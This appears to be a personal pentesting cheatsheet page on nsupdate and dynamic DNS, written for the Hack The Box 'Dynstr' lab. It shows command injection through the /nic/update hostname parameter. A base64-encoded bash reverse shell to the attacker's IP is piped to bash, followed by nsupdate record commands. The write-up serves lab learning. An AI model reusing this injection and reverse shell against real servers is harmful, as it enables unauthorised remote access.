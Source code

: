 # nsupdate

* [https://help.dyn.com/remote-access-api/return-codes/](https://help.dyn.com/remote-access-api/return-codes/)
* [https://www.noip.com/integrate/response](https://www.noip.com/integrate/response)
* [https://www.noip.com/integrate/request](https://www.noip.com/integrate/request)

## dns running ISC BIND 9.16.1

```
# related to DYNSTR HTB box
# using curl -u dynadns:sndanyd http://10.10.10.244/nic/update
# we get nochg 10.10.16.161

# got several 408 Request Timeout Errors
# debugged: for some reason, burp needs to have two empty lines at the end of sent request else ERROR

GET /nic/update?hostname=kashz.no-ip.htb&myip=10.10.16.161 HTTP/1.1
Authorization: Basic ZHluYWRuczpzbmRhbnlk
# response
good 10.10.16.161

# try code injection
GET /nic/update?hostname=id;kashz.no-ip.htb&myip=10.10.16.161 HTTP/1.1 => 911 [nsupdate failed]

GET /nic/update?hostname="$(whoami).no-ip.htb&myip=10.10.16.161 HTTP/1.1 => 911 good 10.10.16.161

# as we are using + to concatenate the string
# we need to find a base64 value without it, using normal ports 6969, 1337 etc has + in them so trying out a different port 999

$ echo -n "/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.161/999 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjE2MS85OTkgMD4mMSc=

# shell success with
GET /nic/update?hostname=";echo+L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjE2MS85OTkgMD4mMSc=+|+base64+-d+|+bash;kashz.no-ip.htb&myip=10.10.16.161 HTTP/1.1
```

## Adding new .key

[https://www.dns-school.org/Documentation/bind-arm/man.nsupdate.html](https://www.dns-school.org/Documentation/bind-arm/man.nsupdate.html) (Example section)

```
$ nsupdate -k <.key>-v

# adding Address(A) record
update add <sub-domain.DOMAIN> 86400 A <MY-IP>
send

# adding Pointer(PTR) record
# IP is to be reversed 10.10.16.161 will become 161.16.10.10.in-addr.arpa.
update add <IP>.in-addr.arpa. 300 PTR <sub-domain.domain>
send
```
